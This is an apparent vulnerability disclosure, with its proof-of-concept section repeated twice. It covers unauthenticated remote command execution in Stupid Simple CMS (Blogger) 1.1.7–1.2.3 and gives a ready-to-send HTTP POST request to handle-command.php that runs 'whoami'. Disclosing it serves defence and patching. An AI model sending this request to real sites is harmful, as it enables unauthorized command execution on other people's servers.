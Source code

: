 # POC
product： Stupid Simple CMS ( Blogger )
version：Version 1.1.7 - Version 1.2.3
## POC:
```shell
POST http://localhost/terminal/handle-command.php HTTP/1.1
Host: localhost
Content-Length: 14
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/terminal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

command=whoami
```
## Vulnerability principle（漏洞原理）:  
The code audit found that there was no authentication operation in the execution command interface. Can result in unauthorized rce.  
So you only need to send a POST request to handle-command.php to RCE.
代审发现执行命令界面未进行鉴权操作。
product： Stupid Simple CMS ( Blogger )
version：Version 1.1.7 - Version 1.2.3
## POC:
```shell
POST http://localhost/terminal/handle-command.php HTTP/1.1
Host: localhost
Content-Length: 14
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/terminal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

command=whoami
```
## Vulnerability principle（漏洞原理）:  
The code audit found that there was no authentication operation in the execution command interface. Can result in unauthorized rce.  
So you only need to send a POST request to handle-command.php to RCE.
代审发现执行命令界面未进行鉴权操作。
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131679.png)
## Vulnerability verification（漏洞验证）：
Local authentication（本地验证）：
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131290.png)
Official website demonstration address verification（demo验证）：
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131024.png)

